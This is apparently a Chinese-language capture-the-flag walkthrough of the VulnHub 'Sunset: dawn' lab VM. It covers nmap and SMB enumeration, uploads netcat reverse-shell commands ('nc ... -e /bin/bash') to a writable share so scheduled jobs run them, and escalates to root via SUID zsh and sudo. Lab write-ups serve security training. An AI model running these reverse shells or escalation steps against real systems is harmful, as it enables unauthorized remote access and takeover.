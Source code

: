 # Sunset: dawn

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：dawn（IP：192.168.56.105）

下载：https://www.vulnhub.com/entry/sunset-dawn,341/

## Let's go

```
nmap -A 192.168.56.105
```

![](./img/Sunset：dawn-01.png)

> **浏览网页并没有发现什么信息，我们进行枚举**

```
dirb http://192.168.56.105/
```

![](./img/Sunset：dawn-02.png)

![](./img/Sunset：dawn-03.png)

> **只有 management.log 允许查看，我们将他保存下来**

```
cat ./下载/management.log
```

![](./img/Sunset：dawn-04.png)

> **我们得到一些有价值的信息**
>
> 用户：dawn，ganimedes
>
> dawn下有一个ITDEPT目录
>
> 定时计划：product-control，web-control，phobos

```
enum4linux -a 192.168.56.105
```

![](./img/Sunset：dawn-05.png)

![](./img/Sunset：dawn-06.png)

> **和我们上面得到的信息联系起来了，所有出口一定在这里**

```
smbclient //192.168.56.105/ITDEPT		#使用SMB访问ITDEPT目录
```

![](./img/Sunset：dawn-07.png)

> **并没有发现 product-control，web-control 两个文件，我们可以尝试上传这两个文件等待定时计划执行**

```
echo 'nc -nv 192.168.56.102 4444 -e /bin/bash' > product-control
echo 'nc -nv 192.168.56.102 4445 -e /bin/bash' > web-control
put product-control
put web-control
```

![](./img/Sunset：dawn-08.png)

```
#监听等待
nc -lp 4444
nc -lp 4445
python -c 'import pty;pty.spawn("/bin/bash")'
```

![](./img/Sunset：dawn-09.png)

![](./img/Sunset：dawn-10.png)

```
find / -perm -u=s -type f 2>/dev/null
zsh
cat /root/flag.txt
```

![](./img/Sunset：dawn-11.png)

![](./img/Sunset：dawn-13.png)

```
sudo -l
sudo sudo -s
cat /root/flag.txt
```

![](./img/Sunset：dawn-12.png)